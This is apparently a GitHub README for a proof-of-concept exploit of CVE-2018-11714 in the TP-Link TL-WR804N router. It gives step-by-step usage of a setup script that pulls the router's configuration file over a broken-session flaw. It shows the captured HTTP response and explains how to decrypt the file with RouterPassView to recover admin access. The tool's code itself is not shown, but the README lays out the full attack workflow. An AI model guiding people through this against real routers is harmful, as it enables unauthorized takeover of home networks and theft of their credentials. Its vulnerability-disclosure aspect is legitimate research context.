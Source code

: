 <img src="img/warning.png" align="right" width="180" height="271" />

# TPLINK TL-WR804N Exploit ![](https://img.shields.io/static/v1?label=CVE%20SCORE&message=10.0&color=red)

This is Proof Of Concept based on CVE-2018-11714 which was found by *Touhid Shaikh*. This Issue is caused by broken session handling on firmware /cgi/ directory. That allow us to download the configuration file and gain access to admin configuration panel.

This issue affect firmware **0.9.1 3.16 v0001.0 Build 170608 Rel.58696n**. And it hasn't been repaired until this time **(0.9.1 4.16 v0001.0 Build 180614 Rel.40494n)**
So, I would like to ask all of you for help to contact the vendor to report this issue so they can fix it as soon as possible.

## CVE Source 
https://blog.securelayer7.net/time-to-disable-tp-link-home-wifi-router/

## Requierments
- curl, bash (if you use unix).

### Linux(Debian, Ubuntu, Kali, etc.)

```
sudo apt-get install curl -y
```

### Linux (Using snap store)

```
sudo snap install curl-ijohnson --edge
```
## How to Use
to execute this, make sure you have cloned this repository according to the operating system you are using. is you use linux Use the ./setup script in /src/linux dir. otherwise, if you are using the windows operating system. you can do the same.
```
theace1@linux:~./setup
Enter Your Router IP Address : 192.168.0.1
```
### Automatic IP Finder
Or if you have trouble finding the gateway, then you can use automatic mode, so the ip will be filled in automatically.
```
theace1@linux:~./setup -a
Enter Your Router IP Address : 192.168.0.1
```

If you have done this, then you will get a encrypted router configuration code that is saved to the conf.bin. the file is saved in the same directory with the setup file. Here is the code that gets from the exploit :
```                                                                                    
HTTP/1.1 200 OK
Content-Type: application/octet-stream; charset=utf-8
Content-Length: 6256
Connection: keep-alive

+�ä�4�f�f1�^?O�vt�^GY&,���h[ڋ�lـ��.�-^Z&�d�DT^]���^Ry�^Tj�3R7B^U�5#B5m�)�=Q���\�^P�-���ĝ
+�^A^W�h�Y��ݠ��%^G����^C���^K�0&r����vj[��x��m�z^R����}֩j0���3��^Q�͎�|�^T}]^A$霤^A��#^T^Z
��^O4���^W��n��l�^X�^S�j�Z��^S^X�;>�^���<^\��L������ԧ𧣩�����^S��|��

```

## How to Decrypt
To decrypt this file easily, you can use a free software provided by [Nirsoft](https://www.nirsoft.net/utils/router_password_recovery.html) called Routerpassview. this is the problem, if you don't use the windows operating system then you can use virtual [ReactOS](https://github.com/reactos/reactos) (virtualbox, vmware, etc.) and run the routerpassview software on the virtual os.

## Finding your Router IP Address Manually
There are many ways to find out your IP gateway, for example by using the default GUI application or through the Command line interface. But usually professionals often use the command line interface because it is efficient and easier to read
### Using route Command in Linux
```
root@linux:/# sudo route -n | grep 'UG[ \t]' | awk '{print $2}'
172.20.208.1 
```
### Using ip r Command in Linux
```
root@linux:/# sudo ip r | grep default
default via 172.20.208.1 dev eth0
```

## Author
thanks to all the friends who helped me complete this code. and thanks CVE Author for discovering this vulnerability.
- Code Author [theace1](https://github.com/theace1) [the4ce1@aol.com](mailto:the4ce.aol.com?subject=Hello%20theace%2C&body=I%20have%20an%20important%20comment%20for%20you) & CVE Author [Touhid Shaikh](https://blog.securelayer7.net/author/touhid/)  

